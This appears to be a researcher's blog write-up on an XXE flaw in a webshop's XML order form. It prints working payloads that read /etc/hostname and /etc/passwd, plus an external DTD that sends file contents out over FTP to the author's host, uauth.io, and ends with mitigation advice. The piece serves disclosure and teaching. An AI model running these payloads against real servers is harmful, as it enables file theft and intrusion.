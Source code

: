 ```yaml
---
title: "Exploiting XXE to gain LFI"
author: i4
date: M07-10-2020
---
```


## Topic
Today I'd like to talk to you about a vulnerability I've found some years ago in a webshop application.  
The application itself is nothing fancy. It's just a form which creates an order with XML values you submit to it.

## Structure
The UI doesn't really look appealing or UX-friendly, but it does its job and I'm only interested in the backend.   
![Offlinebestellung](/b/images/offlinebestellung.png "Offlinebestellung")

The documentation stated how the XML needs to be properly structured to appear valid for further processing.
```
<ORDERIN>
  <KOPF>
    <Sender>Customer Nr.</Sender>
    <KopfText1>n/a</KopfText1>
    <IhrZeichen>n/a</IhrZeichen>
    <Bestelldatum>12.07.2020</Bestelldatum>
    <Lieferdatum>13.07.2020</Lieferdatum>
    <KopfKommission>
      <Kommission>Commission Nr.</Kommission>
    </KopfKommission>
  </KOPF>
  <POSITION>
      <Artikel-Nr>Article Nr.</Artikel-Nr>
      <BestellMenge>quantity</BestellMenge>
      <Postext>
        <Texte>n/a</Texte>
      </Postext>
  </POSITION>
</ORDERIN>
```

## The vulnerability
Many XML-Parsing libraries aren't configured correctly and let you define External Entities.  

The vulnerability itself is called XXE (XML External Entity) - [Read more
here](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

It turned out that the XML-Parser wasn't configured property (tam tam taaa insert meme here). DTD and external entities were allowed.


### Recon 
I've tried some elements with certain values to see if they would give me any sort of feedback.  
Most of them failed with the following message:  

![xxe-failed](/b/images/xxe-failed.png)

After some trial and error I've found that the elements `<Kommission>` and `<IhrZeichen>` were valid payload holders.

### Getting the hostname
For basic stuff you don't need some fancy dtd stuff. 
```
<?xml version=1.2" encoding="ISO-8859-1"> ?>
<!DOCTYPE foo [ <!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM "file://etc//hostname" >]>
...
      <Kommission>&xxe;</Kommission>
...
```

This request returned the following result:  (hostname of the server)  

![hostname](/b/images/hostname.png)

Getting the hostname of a server is already pretty great but only reporting a LFI vuln would be pretty boring. 

### Grabbing interesting stuff
The problem with this particular XXE is that we need to rely on the max input settings of the XML which is defined by the backend.
There was no way to return more than one line (cause of `\r\n` chars which mess
with the output).   
If you can't reflect something, why not just redirect the output somewhere else?

Multiple protocols can be misused to do just this.  
There's no magic behind it. I just spun up a quick ftp server and listened for incoming traffic.

Reading files is quite simple. All I had to do is setting up a HTTP server with a .dtd file  
in its root directory and wait for the victim to pick it up and process it.  
It would have been possible to do it without a .dtd file, but where's there the
fun?

```
python -m 'SimpleHTTPServer'
```

DTD File:
```
<!ENTITY % a SYSTEM "file:///etc/passwd">
<!ENTITY % b "<!ENTITY ftp SYSTEM 'ftp://uauth.io/%a;'>"
```

XML:
```
<?xml version=1.2" encoding="ISO-8859-1"> ?>
<DOCTYPE XXE [
<!ENTITY % dtd SYSTEM "http://uauth.io/xxe.dtd">
...
<IhrName1>%dtd;</IhrName1>
<Kommission>%ftp;</Kommssion>
```

I used the following ruby ftp stub to extract the passwd file.  
[xxe-ftp-server](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)

My ftp logs now showed the contents of /etc/passwd - hurray!  
![images](/b/images/passwd.png)

### How to get RCE

To gain RCE you need to hope that the php `expect` module is activated.  
[PHP expect module](https://www.php.net/manual/de/book.expect.php)

It isn't on by default. So you most likely LFI is the best you can do.

## Conclusion
XXE is a well documented vulnerability and lot of resources are out there.  

- Disable External Entities if not needed.  
- If needed - whitelist the sites hosting dtd.
- Firewall your Servers

Always test your own servers before the baddies do. :)


## Reward
A cold and wet handshake.
